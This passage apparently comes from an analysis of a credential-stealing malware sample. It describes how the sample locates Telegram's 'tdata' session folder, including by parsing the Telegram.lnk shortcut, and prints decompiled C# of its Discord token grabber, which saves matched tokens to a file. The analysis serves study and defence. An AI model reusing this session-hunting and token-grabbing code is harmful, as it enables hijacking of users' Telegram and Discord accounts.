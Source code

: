 ### **GetPathByLnk**

- Hunts down the `Telegram.lnk` shortcut on the desktop (including inside subfolders).
- Reads the shortcut manually using `BinaryReader` (yes, digging into the binary file, not using Windows APIs).
- Skips to around byte 76 to find where the actual file path is stored.
- Pulls out the executable path from there.
- Returns the path if everything goes right, otherwise just says "Not Found!".

---

### **SearchPathTelegram**

- First checks the obvious place: `Variables.roamingappdata\Telegram Desktop\tdata`.
- If that’s missing, tries to find the Telegram shortcut and reconstruct the `tdata` path from it.
- If it figures it out, returns the path. If not, just returns "Not Found!".

# Stage 7: Grabber Discord Session

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Text.RegularExpressions;
using Helpers;
using Main;

namespace Messengers
{
	// Token: 0x02000004 RID: 4
	internal class Discord
	{
		// Token: 0x06000008 RID: 8 RVA: 0x00002534 File Offset: 0x00000734
		public static void GrabberDiscordToken()
		{
			try
			{
				bool flag = Directory.Exists(Variables.workdir + "\\Grabbers\\Discord");
				if (flag)
				{
					Directory.Delete(Variables.workdir + "\\Grabbers\\Discord", true);
				}
				string text = Variables.workdir + "\\Grabbers\\Discord";
				string[] array = Discord.GetTokens(Discord.TokenRegexs[0]);
				bool flag2 = array.Length == 0;
				if (flag2)
				{
					array = Discord.GetTokens(Discord.TokenRegexs[1]);
					bool flag3 = array.Length == 0;
					if (flag3)
					{
						array = Discord.GetTokens(Discord.TokenRegexs[2]);
					}
				}
				bool flag4 = array.Length != 0;
				if (flag4)
				{
					Directory.CreateDirectory(text);
					foreach (string text2 in array)
					{
						File.AppendAllText(text + "\\Tokens.txt", text2 + "\n");
					}
				}
```